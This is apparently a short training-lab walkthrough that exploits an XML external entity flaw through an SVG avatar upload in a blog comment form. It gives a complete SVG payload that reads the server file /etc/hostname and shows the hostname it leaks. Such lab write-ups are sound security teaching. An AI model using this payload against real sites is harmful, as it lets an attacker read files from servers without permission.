 # Lab: Exploiting XXE via image file upload

Navigate to a blog post and fill in the comment submission section. Create a file called `hack.svg` with the following contents:
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

Upload the file as the commenter avatar and submit the comment.

Go back to the blog page and find the comment. Open the image of the comment avatar and see the hostname: `d3b3fca48663`

Submit the answer to solve the lab.
